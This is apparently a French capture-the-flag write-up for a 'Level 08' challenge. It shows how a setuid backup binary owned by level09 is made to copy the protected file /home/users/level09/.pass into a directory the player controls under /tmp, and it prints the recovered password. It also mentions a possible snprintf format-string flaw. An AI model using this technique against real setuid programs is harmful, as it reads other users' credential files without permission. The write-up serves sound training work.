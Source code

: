 # Level 08

Cet executable est setuid sur le user level09.

```
$ l -la ~/
total 28
drwxrwx---+ 1 level09 users      80 Jun 17 16:26 backups/
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08*
$ echo "World" > hello
$ ./level08 hello
$ cat ./backups/hello
World
$ cat ./backups/.log
LOG: Starting back up: hello
LOG: Finished back up hello
```

Il demande de fournir un fichier en paramètre, et crée un dossier `backups` dans le répertoire courant s'il n'existe pas. Après avoir reçu un fichier et créé le dossier, il copie le fichier donné en paramètre et écrit dans le fichier ./backups/.log pour indiquer s'il a réussi à sauvegarder le fichier.

En lisant le code décompilé, on peut penser qu'il y a une faille au niveau de snprintf, car le nom du fichier est pris en paramètre format, mais on reste limité par la taille donnée dans le second paramètre.

Avant d'exploiter cette faille, nous avons essayé autre chose. Puisque le programme ouvre le fichier en tant qu'utilisateur level09, nous pourrions lui donner le chemin /home/users/level09/.pass.

```bash
~$ level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
~$ mkdir -p backups/home/users/level09
mkdir: cannot create directory `backups/home': Permission denied
~$
```

Cependant, cette tentative échoue avec une erreur indiquant qu'il ne peut pas écrire dans le fichier ./backups//home/users/level09/.pass. Nous pourrions penser à créer le dossier, mais nous n'avons pas la permission de créer des dossiers dans `backups`. Nous allons donc réessayer cette procédure dans le répertoire /tmp, où nous avons des permissions d'écriture.

```bash
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
/tmp$ mkdir -p backups/home/users/level09
/tmp$ /home/users/level08/level08 /home/users/level09/.pass
/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Et voilà ! Nous avons réussi à forcer le programme à lire un fichier sans avoir les permissions, dans le dossier courant ./backups. Si le dossier backups avait eu un chemin absolu dans le `home` ou ailleurs, cela aurait été beaucoup plus compliqué.
